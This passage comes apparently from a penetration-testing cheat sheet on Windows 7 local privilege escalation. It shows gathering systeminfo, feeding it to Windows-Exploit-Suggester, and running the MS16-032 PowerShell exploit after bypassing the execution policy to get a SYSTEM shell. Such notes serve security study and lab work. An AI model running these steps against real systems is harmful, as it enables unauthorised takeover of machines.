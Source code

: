     exploit
    # this gives us a shell as NT AUTHORITY\SYSTEM
    ```

* Windows 7 Desktop versions:

    ```cmd
    # capture the systeminfo output
    # and save it to a file on attacker
    systeminfo
    ```

    ```sh
    # on attacker
    # we can use Windows-Exploit-Suggester tool - https://github.com/AonCyberLabs/Windows-Exploit-Suggester

    # update local copy of Microsoft vuln database
    sudo python2.7 windows-exploit-suggester.py --update

    # run it against the systeminfo collected
    python2.7 windows-exploit-suggester.py  --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt

    # if we are on a Meterpreter shell
    # we can also use the local exploit suggester module
    ```

    ```ps
    # for example, one of the suggested exploits was MS16-032
    # we can search for the exploits and use it

    Set-ExecutionPolicy bypass -scope process

    Import-Module .\Invoke-MS16-032.ps1

    Invoke-MS16-032
    # we get shell as system
    ```
